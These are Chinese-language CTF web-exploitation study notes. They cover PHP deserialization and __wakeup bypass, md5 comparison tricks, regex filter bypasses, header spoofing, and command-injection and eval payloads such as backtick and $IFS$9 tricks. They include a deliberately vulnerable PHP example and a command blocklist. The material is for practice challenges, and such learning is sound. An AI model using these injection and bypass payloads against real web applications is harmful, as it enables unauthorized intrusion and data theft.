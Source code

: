 # CTF WEB

## SQL注入

见 CTF WEB SQL

## 反序列化

如何跳过__wakeup函数？

O:6:"HaHaHa":***3***:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}

如上所示 对象本该只有两个属性 admin 和 passwd ，将数量设置为3即可在反序列化中跳过wakeup函数。

例题：

```php
<?php
error_reporting(0);
class dxg
{
   function fmm()
   {
      return "nonono";
   }
}

class lt
{
   public $impo='hi';
   public $md51='weclome';
   public $md52='to NSS';
    
   function __construct()
   {
      $this->impo = new dxg;
   }
   function __wakeup()
   {
       # 此处污染impo属性 需要跳过wakeup
      $this->impo = new dxg;
      return $this->impo->fmm();
   }

   function __toString()
   {
      if (isset($this->impo) && md5($this->md51) == md5($this->md52) && $this->md51 != $this->md52)
          # 此处可以调用impo属性的fmm方法 只用是impo属性为fin对象即可
         return $this->impo->fmm();
   }
   function __destruct()
   {
      echo $this;
   }
}

class fin
{
   public $a;
   public $url = 'https://www.ctfer.vip';
   public $title;
   function fmm()
   {
      $b = $this->a;
      $b($this->title);
   }
}

if (isset($_GET['NSS'])) {
   $Data = unserialize($_GET['NSS']);
} else {
   highlight_file(__file__);
}
```

思路：

先找到能找到能回显flag的点位

此处点位在调用fin类中的fmm方法，只需将$b="system" title="cat /flag" 即可

如何调用fin类中的fmm方法呢？再往上看 可知在lt类中的__toSrting函数会调用fmm方法

我们需要构造一个lt类并将其反序列化即可。



tostring函数可以在echo中被调用

传递值可以考虑使用引用&



## PHP伪协议

如何回显文件？

system(cat /flag)

#### 文件包含

posh不要随便加空格

如何绕过waf？

先利用伪协议查看index.php的编码

找到条件并跳过即可

## 绕过

#### md5数组绕过

```
if($_POST['wqh']!==$_POST['dsy']&&md5($_POST['wqh'])===md5($_POST['dsy'])){
    echo $FLAG;
} 
```

此时传入两个数组即可，因为数组可以被传入md5，但是会返回NULL。

#### md5弱比较绕过

```php
$first==md5($first)
```

$first=0e215962017

#### 双写绕过

```
$str = preg_replace('/NSSCTF/',"",$_GET['str']);
```

这里屏蔽了NSSCTF 只要我们这样写： NSSNSSCTFCTF 中间的NSSCTF就会被替换，留存下来的字符仍然是NSSCTF。

#### 通配符绕过

```php
if(!preg_match("/\;|\&|\\$|\x09|\x26|more|less|head|sort|tail|sed|cut|awk|strings|od|php|ping|flag/i", $cmd)){
        return($cmd);
    } 

shell_exec($cmd); 
```

此时可以用通配符将flag写入fuck.txt 再直接从url中读取fuck.txt即可

传参：?cmd=cat /f* > fuck.txt、

#### session绕过

[CTF-Web20（涉及简单的cookie与session）_ctf session-CSDN博客](https://blog.csdn.net/weixin_39934520/article/details/108716916)



#### 常见Linux命令绕过

ls绕过(内联执行)

ip=;cat$IFS$9`ls`

 linux下，会先执行反引号下面的语句
 在这里会执行ls,ls的结果是“index.php flag.php”
 所以最后执行的语句等价于
 cat index.php flag.php



## XXF

从本地页面跳转使用

X-Forwarded-For: 127.0.0.1

Referer:127.0.0.1

遇到将字符作为语句执行 可以将该字符设置为system("cat /f*")

### RCE(远程代码执行漏洞)

```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['url']))
{
eval($_GET['url']);
}
?> 
```

传入url=system("ls");

找到flag后再传入url=system("cat /f*");即可



还可以使用反引号绕过

##### 反引号绕过

ip=;cat$IFS$9`ls`
 原理讲解：
 linux下，会先执行反引号下面的语句
 在这里会执行ls,ls的结果是“index.php flag.php”
 所以最后执行的语句等价于
 cat index.php flag.php
 右键查看页面源码即可得到flag

$IFS$9可用来代替空格

```
代替空格
< 、<>、%20(space)、%09(tab)、$IFS$9、 ${IFS}、$IFS等
```

### PUT 请求

put请求需要利用burp抓包再修改

#### 今天天气真好

没有过滤“\”，在shell中反斜杠被当作转义符号处理，对一个字母的转义任然是他本身，故诸如“l\s”会被当作“ls”处理，从而实现绕过；

在php中，被反单引号包裹的字符会被作为shell命令处理，之后利用print函数即可获得输出结果
